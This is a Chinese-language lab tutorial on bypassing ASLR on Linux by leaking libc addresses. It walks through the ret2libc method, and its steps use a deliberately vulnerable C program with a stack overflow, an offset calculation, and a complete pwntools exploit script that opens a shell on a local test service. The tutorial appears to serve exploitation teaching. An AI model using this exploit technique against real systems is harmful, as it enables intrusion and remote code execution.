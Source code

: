# Linux下的ASLR（PIE）内存保护机制和绕过

### 1.1  Linux下的ASLR内存保护机制

#### 1.1.1  Linux下的ASLR工作原理

工作原理与window下的aslr类似

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142730266-504241689.png)

#### 1.1.2 Linux下利用内存地址泄露绕过ASLR

##### ⑴. 原理分析：

那么如何解决地址随机化的问题呢？

思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。

首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142755931-669070785.png)

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142817936-96151926.png)

我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt  ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢?  这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

##### ⑵．环境准备：

i．漏洞代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void flow(){
  char buf[128];
  read(STDIN_FILENO,buf,256);
}

int main(){
  flow();
  char a[]="hello";
  write(STDOUT_FILENO,a,strlen(a));
  return 0;
}

编译指令：
gcc -fno-stack-protector -g -m32 -o vuln vuln.c
```

ii．测试环境：

测试系统：Ubuntu 16.04

辅助插件：peda

系统开启aslr：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142843753-614701930.png) 

##### ⑶．测试分析：

i．存在漏洞的函数flow返回地址：

反汇编主函数：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142907399-477699356.png) 

漏洞函数位置：0x0804846b。

 

ii．确定偏移量：

利用pattern.py脚本实现(可以在GitHub上下到)：

生成150字节的字符串

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142930272-2093926147.png) 

在调试器运行程序：

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142951734-1054619155.png)

返回地址被覆盖为0x37654136： 

确定偏移：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143016271-581328692.png) 

偏移量为140字节。

##### ⑷．攻击过程：

i．exp脚本：

```py
\#!/usr/bin/env python

from pwn import *

 

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('/home/zhang/pass_NX/vuln')

 
p = remote('127.0.0.1', 10003)

 
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x804846b
print 'vulfun= ' + hex(vulfun_addr)

 
“””plt_write是主程序中write函数的地址，也是write@plt()函数的地址，后面是write函数的参数，将got表中的write()函数的真实地址写入到stdout。”””
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
 

print "\n###sending payload1 ...###"
p.send(payload1)


print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

 
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

 
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 
print "\n###sending payload2 ...###"
p.send(payload2)
p.interactive()
```



ii. 运行脚本，攻击成功：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143050665-183788241.png)